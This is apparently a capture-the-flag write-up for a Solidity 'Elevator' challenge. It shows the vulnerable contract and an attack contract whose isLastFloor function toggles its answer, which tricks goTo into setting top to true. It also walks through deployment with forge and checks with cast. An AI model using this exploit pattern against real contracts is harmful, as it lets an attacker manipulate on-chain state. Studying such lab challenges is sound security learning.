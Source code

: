# Task

This elevator won't let you reach the top of your building. Right?

# Contract

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```
This Solidity contract simulates an elevator system with two main components: `Building` and `Elevator`. The `Elevator` contract has a `goTo` function that takes a floor number and interacts with a `Building` contract (the caller). It first checks if the floor is the last floor using the `isLastFloor` function from the `Building` contract. If it's not the last floor, it updates the current floor and checks again to determine if the elevator is at the top floor. The `top` variable reflects whether the elevator has reached the top floor.

Lets get the contract address and contract abi

![image](https://github.com/user-attachments/assets/516d6c35-6444-48f6-aaa2-42618867c170)

We'll start out by using cast to check the state of the elevator

![image](https://github.com/user-attachments/assets/fb8e9fdf-ab41-4ed3-ad3e-f26a50dcd251)

We get the "false" response, this means we aren't at the top of the building yet

Lets check the floor we are at

![image](https://github.com/user-attachments/assets/111dcded-99a1-4041-bc06-9c533ab567f9)

We are at floor "0".

To solve this chall we have to be on the last floor. Lets write our attack contract

```sol
//SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "./elevator.sol";

contract elevatorAttack {
   bool public toggle = true;
   Elevator public target;

   constructor(address _targetAddr) public {
    target = Elevator(_targetAddr);
   }
   
   function isLastFloor(uint) public returns (bool) {
        toggle = !toggle;
        return toggle;
   }

    function setTop(uint _floor) public {
        target.goTo(_floor);
    }
}
```
what does this attack contract do??

1. It imports the `Elevator` contract and sets it as the target during construction (constructor).
2. The `isLastFloor` function alternates (toggles) between returning true and false on each call.
3. By alternating the `isLastFloor` return value, the `goTo` function in the `Elevato`r contract can be tricked into thinking it hasn’t reached the top floor, even when it has, due to the changing return value.
4. The `setTop` function is used to call the `goTo` function in the `Elevator` contract, exploiting this behavior to bypass the condition and manipulate the elevator's top status.


Lets deploy this attack contract with forge

![image](https://github.com/user-attachments/assets/65925b13-aaa0-44a1-bbfa-82150462beb8)

Now that we've successfully deployed this, lets interact with the functions

We'll start by setting the top to say "floor 20" 

![image](https://github.com/user-attachments/assets/61aa3195-57ba-409d-a65b-90c9475a6a52)

Nicee, our transaction got successful

Now, lets check the floor again

![image](https://github.com/user-attachments/assets/c5b0cedd-c783-4f62-b0e3-91427dd2b15e)

Good, we can now go ahead to check if we are at the top of the elevator or not

![image](https://github.com/user-attachments/assets/e116090a-dc35-45a4-8e9f-904159927b57)

We got the "true" output, which means we have successfully reached the top of the building

You can go ahead to submit the instance

![image](https://github.com/user-attachments/assets/54e745ce-906d-488e-8902-2e78cc499218)







































